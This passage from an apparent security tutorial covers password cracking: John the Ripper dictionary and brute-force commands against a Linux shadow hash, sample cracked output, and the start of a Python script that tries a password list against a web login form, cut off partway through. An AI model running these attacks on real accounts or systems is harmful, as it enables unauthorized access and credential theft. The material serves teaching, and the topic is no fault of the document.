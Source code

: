 - **Advantages**: Effective against common passwords, fast
- **Disadvantages**: Limited to words in the dictionary

### 4.3 Worked Examples of Password Cracking

#### 4.3.1 Offline Cracking Example: Cracking Linux Shadow Passwords

This example demonstrates cracking a Linux /etc/shadow password hash using John the Ripper:

1. First, extract the hash from the shadow file:

```
victim:$6$salt$hash:18000:0:99999:7:::
```

2. Save the hash to a file (hash.txt) and run John the Ripper:

```bash
# Using dictionary attack
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Using brute force with rules
john --incremental=all hash.txt
```

3. Results display:

```
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
password123     (victim)
```

The process can be explained step by step:

1. John identifies the hash type (SHA512)
2. It applies the configured attack method (dictionary or brute force)
3. For each candidate password:
   - Apply the same salt as in the hash
   - Compute the hash using the same algorithm
   - Compare with the target hash
4. Return the matching password when found

#### 4.3.2 Online Cracking Example: Web Application Login

This example demonstrates a simple Python script to perform an online password cracking attack against a web login form:

```python
import requests

def online_password_attack(url, username, password_list):
    """
    Demonstrate an online password attack against a web form.
    WARNING: This is for educational purposes only. Unauthorized access is illegal.
    """
    for password in password_list:
        # Create a session to maintain cookies
        session = requests.Session()
        
        # First request to get any CSRF tokens (example)
        response = session.get(url)
        
        # Extract CSRF token (implementation depends on the target site)
        # csrf_token = extract_csrf_token(response.text)
        
        # Prepare login data
        login_data = {
            'username': username,
            'password': password,
```